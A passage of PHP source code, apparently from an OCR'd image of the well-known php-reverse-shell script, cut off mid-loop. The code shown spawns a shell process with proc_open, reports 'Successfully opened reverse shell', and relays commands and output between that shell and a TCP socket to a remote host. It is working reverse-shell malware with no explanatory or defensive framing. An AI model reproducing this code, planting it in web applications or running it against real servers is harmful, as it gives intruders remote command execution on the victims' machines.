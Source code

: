 ```php
  // Spawn shell process
  $descriptorspec = array(
    0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
    1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
    2 => array("pipe", "w")   // stderr is a pipe that the child will write to
  );

  $process = proc_open($shell, $descriptorspec, $pipes);

  if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
  }

  // Set everything to non-blocking
  // Reason: Occsionally reads will block, even though stream_select tells us they won't
  stream_set_blocking($pipes[0], 0);
  stream_set_blocking($pipes[1], 0);
  stream_set_blocking($pipes[2], 0);
  stream_set_blocking($sock, 0);

  printit("Successfully opened reverse shell to $ip:$port");

  while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
      printit("ERROR: Shell connection terminated");
      break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
      printit("ERROR: Shell process terminated");
      break;
    }

    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
      if ($debug) printit("SOCK READ");
      $input = fread($sock, $chunk_size);
      if ($debug) printit("SOCK: $input");
      fwrite($pipes[0], $input);
    }

    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
      if ($debug) printit("STDOUT READ");
      $input = fread($pipes[1], $chunk_size);
      if ($debug) printit("STDOUT: $input");
      fwrite($sock, $input);
    }

    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
      if ($debug) printit("STDERR READ");
```